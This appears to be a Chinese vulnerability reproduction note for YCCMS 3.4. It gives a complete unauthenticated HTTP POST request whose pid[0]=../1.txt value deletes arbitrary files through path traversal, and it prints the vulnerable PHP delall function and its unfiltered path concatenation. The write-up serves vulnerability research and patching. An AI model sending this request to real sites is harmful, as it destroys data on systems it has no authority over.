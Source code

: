 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

YCCMS 3.4

### 三、复现过程 ###
    POST /admin/?a=pic&m=delall HTTP/1.1
    Host: 127.0.0.1:8082
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 89
    Origin: http://127.0.0.1:8082
    Connection: close
    Referer: http://127.0.0.1:8082/admin/?a=pic
    Upgrade-Insecure-Requests: 1
    
    pid%5B0%5D=../1.txt&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87t
只需要更改pid[0]即可在无登录条件下任意删除文件，删除根目录下的1.txt
![](YCCMS3.4任意文件删除/20200510143520-6bc12876-9288-1.png)
已经删除成功了

![](YCCMS3.4任意文件删除/20200510143550-7d8c00bc-9288-1.png)

其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生
根据url定位到相关函数位置,位于/controller/PicAction.class.php

    public function delall(){
    if(isset($_POST['send'])){
    if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
    $_fileDir=ROOT_PATH.'/uploads/';
    foreach($_POST['pid'] as $_value){
    $_filePath=$_fileDir.$_value;
    if(!unlink($_filePath)){
    tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
    }else{
    header('Location:?a=pic');
    }
    }
    
    }
    
    }
对 pid传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞

### 参考链接 
https://xz.aliyun.com/t/7748#toc-4